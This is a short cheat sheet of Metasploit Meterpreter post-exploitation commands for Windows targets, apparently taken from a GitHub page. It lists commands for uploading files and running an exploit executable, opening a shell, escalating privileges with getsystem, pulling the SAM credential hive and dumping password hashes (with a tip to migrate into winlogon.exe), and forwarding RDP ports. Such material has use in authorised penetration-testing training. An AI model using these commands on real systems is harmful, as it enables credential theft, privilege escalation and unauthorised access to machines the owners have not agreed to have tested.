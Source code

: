 ```bash
upload file c:\\windows
```

- Meterpreter upload file to Windows target

```bash
download c:\\windows\\repair\\sam /tmp
```

- Meterpreter download file from Windows target

```bash
download c:\\windows\\repair\\sam /tmp
```

- Meterpreter download file from Windows target

```bash
execute -f c:\\windows\temp\exploit.exe
```

- Meterpreter run .exe on target – handy for executing uploaded exploits

```bash
execute -f cmd -c
```

- Creates new channel with cmd shell

```bash
ps
```

- Meterpreter show processes

```bash
shell
```

- Meterpreter get shell on the target

```bash
getsystem
```

- Meterpreter attempts priviledge escalation the target

```bash
hashdump
```

- Meterpreter attempts to dump the hashes on the target (must have privileges; try migrating to winlogon.exe if possible first)

```bash
portfwd add –l 3389 –p 3389 –r target
```

- Meterpreter create port forward to target machine

```bash
portfwd delete –l 3389 –p 3389 –r target
```
